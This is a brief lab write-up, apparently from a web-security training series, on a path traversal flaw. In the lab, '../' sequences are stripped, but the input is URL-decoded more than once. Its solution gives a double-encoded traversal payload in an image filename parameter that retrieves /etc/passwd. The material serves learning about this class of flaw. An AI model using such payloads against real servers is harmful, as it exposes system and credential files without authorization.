 # Lab 4: File Path Traversal - Traversal Sequences Stripped with Superfluous URL-Decode

## 📝 Description

This lab shows a File Path Traversal vulnerability where traversal sequences `(../)` are stripped after URL decoding, but decoding happens more than once.

By double-encoding the sequences, you can bypass the filter.

## 🎯 Objective

- Understand how superfluous URL decoding works.

- Use double-encoded traversal sequences to escape restricted directories.

- Retrieve sensitive files such as `/etc/passwd`.

## Solution 

<img width="1347" height="428" alt="Screenshot (797)" src="https://github.com/user-attachments/assets/74c0d48b-3a42-45f0-989a-546df2f8c08a" />

```
<img src="/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd">
```
